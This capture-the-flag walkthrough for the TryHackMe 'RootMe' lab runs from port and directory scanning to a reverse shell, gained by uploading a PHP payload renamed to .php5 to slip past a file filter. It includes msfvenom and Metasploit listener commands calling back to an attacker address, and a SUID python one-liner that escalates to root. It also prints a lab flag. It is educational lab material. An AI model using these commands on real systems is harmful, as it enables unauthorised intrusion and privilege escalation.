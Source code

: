 # RootMe

[RootMe](https://tryhackme.com/room/rrootme)

## Enumeration

### Nmap

```bash
nmap -A ip_address

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cf4c930a94d2dc57eeb8de8bce4aa91c (RSA)
|   256 c30c8a6f271265a2056c1ae9ccc55c49 (ECDSA)
|_  256 f016a097e0212bce2cf74880294ec1ab (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### Directory Brute force

```bash
gobuster dir -u http://10.10.209.46:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

```bash
/uploads              (Status: 301) [Size: 314] [--> http://10.10.209.46/uploads/]                                                                            
/css                  (Status: 301) [Size: 310] [--> http://10.10.209.46/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.209.46/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.209.46/panel/]                                                                 
/server-status        (Status: 403) [Size: 277]
```

## Getting a Shell - Find a form to upload and get a reverse shell, and find the flag

### Creating MSFVenom PHP Payload

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.231.56 LPORT=9001 -f elf -o reverse.elf
```

### Creating Meterpreter Listener with MSF console

```bash
msfconsole -q -x "use multi/handler; set payload php/reverse_php; set lhost 10.10.231.56; set lport 9001; exploit"
```

### Upload the payload on the webpage's upload tab

![Upload attempt](attachment:efaacaea-2b6e-4959-9470-73eddcc94e22:image.png)

If we browse to the **ip_address/uploads** folder, we can see that it has been uploaded

![Uploads folder](attachment:111dcf71-62b6-4e94-a5c9-cf0ba832657f:image.png)

Seems like i made a mistake, the PHP payload was the way to upload, but instead i uploaded an .elf for Linux machine, but in fact we needed the PHP.

So i recreated the PHP payload, changed the extension to php5, to bypass the security measure and it was successfully uploaded to the webserver

![Successful upload](attachment:e9672f11-dd62-4f64-a592-d1f6fb63f76c:image.png)

Now lets browse to the upload directory and try to trigger the payload to get a shell

![Trigger payload](attachment:65d5ed2c-1c48-4017-8609-75122b53e568:image.png)

Had to change plans again, as this was not working. Generated a new PHP payload with the PHP monkey GitHub tool and did the same process above and this time i utilized netcat for the listener

![Shell obtained](attachment:ac61b072-2a53-4efa-a09a-8d012f62a8f1:image.png)

I think this time it works, because the shell is active

### Quickly search for the user.txt

```bash
find / -name "user.txt" 2>/dev/null
```

Result:

```bash
/var/www/user.txt
```

Now, lets view this file, finally:

```bash
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

## Search for files with SUID permission, which file is weird?

### Finding files with SUID Permissions Owned by Root

```bash
find / -type f -user root -perm -4000 2>/dev/null
```

We identified that **/usr/bin/python** is the weird file

### Lets escalate privileges to Root

1. Go to GTFOBins

![GTFOBins](attachment:75853d99-4f8a-4c4a-8167-ae9c374037d2:image.png)

2. Search for Python, to find the libraries for that
   - We have identified the Sudo python binary

![Python SUID](attachment:33676103-3dc9-43d6-976b-6f0529b50483:image.png)

3. We will use this payload to try and escalate our privilege in our current environment:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

4. After running, our privileges will be escalated

![Root access](attachment:2e51a097-8f10-4b37-82cd-1dc26406230f:image.png)

### Find the Root File

```bash
find / -name "root.txt" 2>/dev/null
```

It will be in /root/root.txt

---

![Completed](attachment:02b235ce-a8ab-475b-98ae-e3dbb89376c1:image.png)
